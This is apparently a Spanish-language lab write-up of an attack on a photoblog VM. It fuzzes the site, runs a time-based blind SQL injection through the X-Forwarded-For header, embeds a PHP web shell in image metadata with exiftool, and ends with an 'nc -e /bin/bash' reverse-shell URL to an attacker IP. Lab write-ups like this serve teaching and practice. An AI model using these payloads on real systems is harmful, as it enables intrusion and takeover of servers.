

## Puertos abiertos

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture
MAC Address: 00:0C:29:B5:03:7F (VMware)
```

## Servicio web 80


### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -t 200 -c -r
[...]
.hta                    [Status: 403, Size: 169, Words: 4, Lines: 8]
.htaccess               [Status: 403, Size: 169, Words: 4, Lines: 8]
.htpasswd               [Status: 403, Size: 169, Words: 4, Lines: 8]
                        [Status: 200, Size: 1367, Words: 389, Lines: 72]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
index.php               [Status: 200, Size: 1367, Words: 389, Lines: 72]
```

Además de los métoos `GET`, `POST` y las `cookies`, hay otros valores que son susceptibles a las inyecciones SQL. En este caso particular se centrará en el valor **X-Forwarded-For** que utiliza el servidor para determinar la IP de un usuario cuando la aplicación está detrás de un proxy inverso.

Podemos probar si este valor es vulnerable creando una solicitud `HTTP GET` al servidor e inyectando SQL directamente en este valor. Usaré la explotación basada en el tiempo para probar la vulnerabilidad midiendo el tiempo de respuesta de la solicitud GET.

Desde `BurpSuite` se visualizará mejor el PoC de la inyección.

Header vulnerable: `X-Forwarded-For: test'or sleep(3)-- -`


Entonces crearé unos scripts para obtener los datos a travéz de SQL a ciegas.

### Obtener base de datos

[ddbb.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/database.py)


### Obtener tablas

[tablas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/tablas.py)

```
[◢] Payload: test' or IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='photoblog' LIMIT 7,1),3,1)=BINARY(0x76),sleep(3),1)-- -
[+] Tabla [0]: categorie
[+] Tabla [1]: pictures
[+] Tabla [2]: stats
[+] Tabla [3]
[+] Tabla [4]
[+] Tabla [5]
[+] Tabla [6]
[ ] Tabla [7]
[-] Saliendo
```

### Obtener columnas

[columnas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/columnas.py)


### Obtener registros

[regitros](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/registros.py)


Obteniendo la contraseña del usuario administrador


admin :: P4ssw0rd

Después de estar logueado como usuario `admin` encuentro una opción donde se permite la subida de imágenes pero sólo con extensiones `jpg,png o gif`.

Inyecto código `php` con la herramienta `exiftool`.
```
❯ exiftool -Comment="<?php system(\$_GET['cmd']); ?>" shell.png
```

Visualizando la metadata de la imágen

```
❯ exiftool img.jpg
[...]
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php system($_GET['c']); ?>
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
[...]
```

### Usuario www-data

`http://192.168.0.100/admin/uploads/1632603690.png/c.php?c=nc%20-e%20/bin/bash%20192.168.0.107%204444`


